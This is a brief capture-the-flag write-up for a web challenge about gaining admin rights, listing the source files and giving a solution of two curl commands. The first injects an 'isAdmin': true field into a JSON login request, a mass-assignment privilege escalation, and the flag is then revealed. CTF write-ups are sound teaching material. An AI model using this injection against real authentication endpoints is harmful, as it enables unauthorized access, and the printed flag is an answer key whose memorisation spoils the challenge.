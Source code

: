 #### Challenge:

Do you have what it takes to be the admin?

[index.tsx](./index.tsx ":ignore")

[auth.ts](./auth.ts ":ignore")

[schema.prisma](./schema.prisma ":ignore")

---

#### Solution:

```bash
curl 'http://01.linux.challenges.ctf.thefewchosen.com:60049/api/auth' \
    -X POST -H 'Content-Type: application/json' \
    --data-raw '{"username":"admin", "isAdmin": true}'
curl 'http://01.linux.challenges.ctf.thefewchosen.com:60049/'
```

---

<details><summary>FLAG:</summary>

```
TFCCTF{S4n1t1z3_Y0ur_1nput5!}
```

</details>
<br/>
